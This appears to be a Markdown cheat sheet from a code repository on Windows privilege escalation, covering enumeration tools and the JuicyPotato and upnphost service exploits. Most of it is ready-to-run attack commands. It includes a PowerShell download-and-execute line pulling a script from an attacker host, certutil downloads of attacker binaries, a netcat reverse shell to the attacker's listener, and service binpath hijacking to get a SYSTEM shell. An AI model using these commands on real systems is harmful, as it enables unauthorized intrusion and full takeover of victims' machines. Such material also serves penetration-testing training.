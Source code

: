 ## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe


```
winPEAS.exe -a
```


### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```

## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

You get Administrator with:
```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

